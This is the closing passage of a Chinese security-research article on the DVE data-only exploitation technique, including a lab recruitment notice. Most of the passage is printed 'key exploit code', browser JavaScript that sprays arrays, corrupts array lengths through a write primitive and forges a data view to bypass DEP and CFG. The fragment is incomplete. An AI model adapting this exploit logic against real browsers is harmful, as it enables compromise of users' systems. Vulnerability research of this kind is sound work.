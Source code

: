 通过上述分析，笔者逐渐领悟到DVE技术的精髓：通过修改关键数据结构来获取任意数据操纵的能力，这就是袁哥所说的“上帝之手”。然后借”上帝之手”绕过dep+alsr+cfg+rfg等漏洞防御技术，最后配合内核漏洞，完成整个Exploit Chain的攻击。感谢分析过程中yuange的指导和实验室小伙伴的帮助，笔者能力有限，分析有误的地方还望大家指出。最后，欢迎对二进制漏洞研究感兴趣的小伙伴加入腾讯湛泸实验室，发送简历到yuangeyuan@tencent.com。

部分关键利用代码：



```
for(var i=0;i&lt;0x1000;i+=1)
`{`
   arr[i]=new Array(0x800);
   arr[i][1]=25959;
   arr[i][0]=0;
   write(0x0e,0x00010,0x1000,1851880825);
   if(arr[i][0]==1851880825)
   `{`      
      arr[i+1]=new Array(0x400);
      arr[i+1][1]=buffer;
      arr[i+1][0]=0;
      getarrint(i);
      fakeview();
      document.write("&lt;br&gt;&lt;br&gt; find i="+i+"&lt;br&gt;");
      bypassdepcfg();
      break;
   `}`
`}`
function getarrint(i)
`{`  
  arr[i].length=0x10000;
  arrint=arr[i];  
  arrvar=arr[i+1];
  write(0x09,0x001000,0x100000,0x0001000);
  write(0x0a,0x001000,0x100000,0x0001000);
`}`
function fakeview( )
`{`
  arrint.length=0xffff0000;  
  arrvar[0]=buffer1;
  arrvar[1]=view2;
  arrvar[2]=0;
  write(0x0d,0x001000,0x100000,arrint[0xc03]);
  write(0x0c,0x001000,0x100000,arrint[0xc02]+0x28);    
  uint32[0]=arrint[0xc00];
  index=uint32[0];
  for(var i=0;i&lt;0x10;i++) view4[i]=arrint[index+i];
  write(0x0d,0x0001000,0x100000,0);
  write(0x0c,0x0001000,0x100000,0);   
  arrint[0xc04]=view4[0x0e];
  arrint[0xc05]=view4[0x0f];
  myview=arrvar[2];
`}`
```
